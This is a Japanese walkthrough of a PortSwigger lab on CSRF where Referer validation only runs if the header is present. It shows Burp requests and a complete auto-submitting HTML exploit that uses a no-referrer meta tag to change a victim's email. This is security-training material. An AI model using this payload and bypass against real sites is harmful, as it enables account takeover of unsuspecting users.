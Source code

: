 # リファラー検証が存在するヘッダーに依存する CSRF

次のハッキングラボを実施します  
https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-depends-on-header-being-present  
このラボの電子メール変更機能は CSRF に対して脆弱です。クロスドメインリクエストをブロックしようとしますが、フォールバックは安全ではありません。

- 1. BurpSuite を起動して Procy タブからブラウザを立ち上げます
- 2. ハッキングラボにアクセスします
- 3. 一般ユーザーでログインします
- 4. メールアドレスの更新を行います
- 5. POST /my-account/change-email リクエストのリファラーヘッダーのドメインを変更して送信すると失敗します

```
POST /my-account/change-email HTTP/2
Host: 0a6e002503a5788281df259100c3008e.web-security-academy.net
Cookie: session=0wLyV40i0IB8F3uypuudcnBZFhvY4791
・・・
Referer: https://0a6e002503a5788281df259100c3008e.web-security-academy.net2/my-account?id=wiener
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8

email=test%40com
```

- 6. POST /my-account/change-email リクエストのリファラーヘッダーを削って送信すると成功します

```
POST /my-account/change-email HTTP/2
Host: 0a6e002503a5788281df259100c3008e.web-security-academy.net
Cookie: session=0wLyV40i0IB8F3uypuudcnBZFhvY4791
・・・

Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8

email=test%40com
```

- 7. エクスプロイトサーバーに移動してボディに次のように入力します

```html
<html>
<head>
 <meta name="referrer" content="no-referrer">
<\head>
<body>
  <form method="POST" action="https://0a6e002503a5788281df259100c3008e.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="test2@com" />
    <input type="submit" value="submit" />
  </form>
  <script>
    document.forms[0].submit();
  </script>
</body>
</html>
```

- 8. Store ボタン押下、deliver exploit to victim ボタン押下で攻撃成功
